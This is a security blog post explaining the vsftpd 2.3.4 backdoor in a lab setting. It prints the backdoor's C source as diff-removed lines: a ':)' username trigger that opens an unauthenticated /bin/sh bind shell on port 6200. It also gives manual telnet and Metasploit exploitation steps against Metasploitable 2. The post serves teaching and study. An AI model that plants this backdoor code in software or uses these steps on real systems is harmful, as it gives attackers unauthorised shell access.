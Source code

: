 ```yaml
---
layout: post
title:  "VSFTPD 2.3.4"
categories: [Technical]
tags: [backdoor, exploit, python]
---
```


### Introduction

Between June 30th - July 1st 2011 a backdoor was introduced into the vsftpd-2.3.4.tar.gz archive this backdoor allowed an attacker to get a bind shell to the system and thus compromising the system. Although the backdoor was removed quickly (July 3rd 2011) a lot of people downloaded this vulnerable version of VSFTPD, causing quite a lot of panic for sysadmins.

### So, how does it work?

In general, it's actually a pretty simple exploit, and whilst there is a Metasploit module you really don't need to use it. The backdoor payload is initiated in response to a user sending `:)` to the server upon being prompted for a username, by sending that smiley face to the server it executes a function which opens a bind shell listener on port 6200 of the affected device.

### Code Review

```
-    else if((p_str->p_buf[i]==0x3a)
-    && (p_str->p_buf[i+1]==0x29))
-    {
-      vsf_sysutil_extra();
-    }
```

As you can see in the above code, we're checking if some input is equal to a certain value, to be specific, we're checking if the user input is equal to `0x3a` and `0x29` if this is true then we're executing `vsf_sysutil_extra();` a quick Google on `0x3a` tells you it's a `:` and a further Google on `0x29` shows a `)` so as you can see there is the smiley face. So, now we know that we have this special input, let's look at the `vsf_sysutil_extra();` function as right now we don't have anything that resembles a vulnerability.

```
-int
-vsf_sysutil_extra(void)
-{
-  int fd, rfd;
-  struct sockaddr_in sa;
-  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
-  exit(1);
-  memset(&sa, 0, sizeof(sa));
-  sa.sin_family = AF_INET;
-  sa.sin_port = htons(6200);
-  sa.sin_addr.s_addr = INADDR_ANY;
-  if((bind(fd,(struct sockaddr *)&sa,
-  sizeof(struct sockaddr))) < 0) exit(1);
-  if((listen(fd, 100)) == -1) exit(1);
-  for(;;)
-  {
-    rfd = accept(fd, 0, 0);
-    close(0); close(1); close(2);
-    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
-    execl("/bin/sh","sh",(char *)0);
-  }
-}
-
-
```

As you can see above, we're creating a bind socket and setting up a listener process on that socket. We're opening this socket on port 6200 and that is where the vulnerability lies, because we can now connect to this socket without *any* authentication process taking place.

### Exploit

As I mentioned earlier we can exploit this using the Metasploit module `exploit/unix/ftp/vsftpd_234_backdoor` however, we can carry out this exploit manually fairly easily, we will look at both methods in this post.

It's worth noting for the below exploitation examples I am using [Metasploitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2)

#### Manual Exploitation

Firstly, let's telnet to our affected device on port 21 using `telnet ip port` once we do that we'll be asked for a username & password, let's use `:)` as the username & `pass` as the password. If we wait a few seconds then port 6200 should be opened, you can also manually escape with `^]` but waiting also works.

Now if we run an nmap scan on our target we should see that port 6200 is open, we can now use `telnet ip port` again and that's it! We now have shell access, if the service was running on a root account in a network we'd now have a root account in that network, simple, right? 


#### Metasploit Exploitation

As I mentioned, we can use the Metasploit module to carry out this attack however I do actually prefer doing it manually, nonetheless, let's get into this. Once again I am using [Metaspolitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2) as my target.

Start Metasploit using `msfconsole` then run `use exploit/unix/ftp/vsftpd_234_backdoor` now all we need to do is configure the host of the target, if you use `show options` you should see the `RPORT` field is already correct, to set the `RHOST` field use `set rhost ip` then we just type `run` and that's it, the script will carry out the attack for you, with a few exceptions it pretty much just does what you did manually, you can find a link to the Rapid7 page at the bottom of this post. But that's it! That's all we needed to do, now you have a shell.

![Metasploit Example](/assets/images/vsftpd234/vsftpd234.PNG)

### Python Exploitation

After browsing the Internet for a while I found this [blog post](https://0x00sec.org/t/re-building-a-vsftpd-backdoor-exploit-in-python/159) which showed an implementation of the Metasploit module in Python. As you can see, this is a Python 2 implementation, so for my own benefit I decided to rewrite the script into Python 3, you can find my Python 3 implementation repo [here](https://github.com/LinxzFade/vsftpd234-Backdoor)


### References

[Rapid7 Metasploit Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)

[vsftpd 2.3.4 Vulnerable Code](https://pastebin.com/AetT9sS5)

[Metasploit Module Exploit Code](https://www.exploit-db.com/exploits/17491/)

[Python 2 Exploit Implementation](https://0x00sec.org/t/re-building-a-vsftpd-backdoor-exploit-in-python/159)

